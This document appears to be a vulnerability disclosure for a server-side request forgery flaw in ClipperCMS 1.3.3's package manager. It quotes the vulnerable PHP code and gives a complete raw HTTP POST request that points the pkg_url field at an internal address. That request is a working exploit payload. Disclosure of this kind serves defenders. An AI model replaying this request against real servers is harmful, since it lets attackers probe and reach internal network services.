

# PoC

There is a SSRF vulnerability in the pkg_url parameter of the index.php?a=120 interface in ClipperCMS-clipper_1.3.3

```
manager\actions\package_manager.php

if ((@$_GET['repo'] || $_GET['repo'] === '0') && ctype_digit($_GET['repo']) && $_GET['repo'] < sizeof($repos)) {

    $mode = 'repo-list';
    $repo_tag = (isset($_GET['tag']) && ctype_alpha($_GET['tag'])) ? $_GET['tag'] : null;
    $PM_cache_idx = $repo_tag ? $repo_tag : 0;

} elseif ($_SERVER['REQUEST_METHOD'] == 'POST') {

    if (@$_POST['pkg_url']) {

        $PM = new PackageManager($modx, $_POST['pkg_url']);
        $mode = 'summarise';

    } elseif (@$_POST['pkg_folder']) {

        $PM = new PackageManager($modx, $_POST['pkg_folder']);
        $mode = 'summarise';

    } elseif (isset($_FILES['pkg_file']) && $_FILES['pkg_file']['error'] != UPLOAD_ERR_NO_FILE) {

        switch($_FILES['pkg_file']['error']) {
            case UPLOAD_ERR_OK:
            
                if (is_uploaded_file($_FILES['pkg_file']['tmp_name'])) {
                    $PM = new PackageManager($modx, $_FILES['pkg_file']['tmp_name'], $_FILES['pkg_file']['name']);
                    $mode = 'summarise';
                } else {
                    $errmsg = $_lang['package_manager_error_internal'];
                }
                
                break;

            case UPLOAD_ERR_INI_SIZE:
                $errmsg = $_lang['package_manager_error_filesize'];
                break;

            default:
                $errmsg = $_lang['package_manager_error_internal'];
                break;
    
        }
        ...

```

#### http://xxxx/manager/index.php?a=120

```

POST /manager/index.php?a=120 HTTP/1.1
Host: 192.168.156.136
Content-Length: 602
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.156.136
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEJOp0kky1hQLWB2A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.156.136/manager/index.php?a=120&repo=0
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
Cookie: iCMS_ADMIN_AUTH=51bf76419l_i3_t-1_yZJVXGwCgSQ1XfO4exCxVvHn4s8hU09WAjnkVsBo-0gp1LoJu3_X3RBjw9g_ZEpv5avtlt4MCgPGuzQYz31RXZtB9wWh-Yh5JB6CnhL2HOsg; my_wikiUserID=3; my_wikiUserName=123; 4c707ae227f79bf7de196947377b3e3d=da02mk81p3acuoocm7sp7jk4u2; PHPSESSID=rfkgmjgnf85n1qcc1ii3rsqag6; SN6310b3eaca4dc=ru28c1conkikqpb0k7ualk29u5
Connection: close

------WebKitFormBoundaryEJOp0kky1hQLWB2A
Content-Disposition: form-data; name="pkg_url"

http://192.168.156.136:88/111
------WebKitFormBoundaryEJOp0kky1hQLWB2A
Content-Disposition: form-data; name="pkg_file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryEJOp0kky1hQLWB2A
Content-Disposition: form-data; name="pkg_folder"


------WebKitFormBoundaryEJOp0kky1hQLWB2A
Content-Disposition: form-data; name="verbose"

0
------WebKitFormBoundaryEJOp0kky1hQLWB2A
Content-Disposition: form-data; name="go"

Upload
------WebKitFormBoundaryEJOp0kky1hQLWB2A--

```



#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao en-ze wang lin-jie wu